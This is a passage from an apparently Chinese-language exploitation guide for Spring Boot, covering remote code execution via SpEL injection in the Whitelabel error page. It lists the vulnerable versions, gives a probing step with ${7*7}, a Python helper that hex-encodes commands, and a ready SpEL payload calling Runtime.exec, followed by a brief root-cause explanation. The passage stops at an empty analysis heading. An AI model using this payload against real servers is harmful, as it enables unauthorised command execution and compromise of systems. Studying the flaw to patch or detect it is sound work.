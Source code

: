 

## 二：远程代码执行

> 由于 spring boot 相关漏洞可能是多个组件漏洞组合导致的，所以有些漏洞名字起的不太正规，以能区分为准



### 0x01：whitelabel error page SpEL RCE

#### 利用条件：

- spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot 默认错误页面的接口及参数名



#### 利用方法：

##### 步骤一：找到一个正常传参处

比如发现访问  `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。



##### 步骤二：执行 SpEL 表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```python
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```

执行 `open -a Calculator` 命令

```java
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```



#### 漏洞原理：

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中  `${}`  包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞



#### 漏洞分析：
